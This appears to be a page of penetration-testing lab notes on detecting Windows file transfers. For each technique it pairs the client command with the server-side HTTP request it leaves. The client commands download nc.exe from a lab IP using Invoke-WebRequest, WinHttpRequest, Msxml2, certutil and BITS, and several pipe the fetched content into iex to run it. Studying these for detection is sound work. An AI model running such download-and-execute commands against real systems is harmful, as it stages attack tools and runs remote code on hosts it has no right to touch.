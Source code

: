 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Detection

{% embed url="https://useragentstring.com/pages/useragentstring.php" %}

Invoke-WebRequest - Client

{% code fullWidth="true" %}
```
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
```
{% endcode %}

Invoke-WebRequest - Server

```
GET /nc.exe HTTP/1.1
```

WinHttpRequest - Client

```
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.ResponseText
```

WinHttpRequest - Server

```
GET /nc.exe HTTP/1.1
```

Msxml2 - Client

```
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.responseText
```

Msxml2 - Server

```
GET /nc.exe HTTP/1.1
```

Certutil - Client

```
C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe 
C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```

Certutil - Server

```
GET /nc.exe HTTP/1.1
```

BITS - Client

```
PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
PS C:\htb> $r=gc $env:temp\t;
PS C:\htb> rm $env:temp\t; 
PS C:\htb> iex $r
```

BITS - Server

```
HEAD /nc.exe HTTP/1.1
```
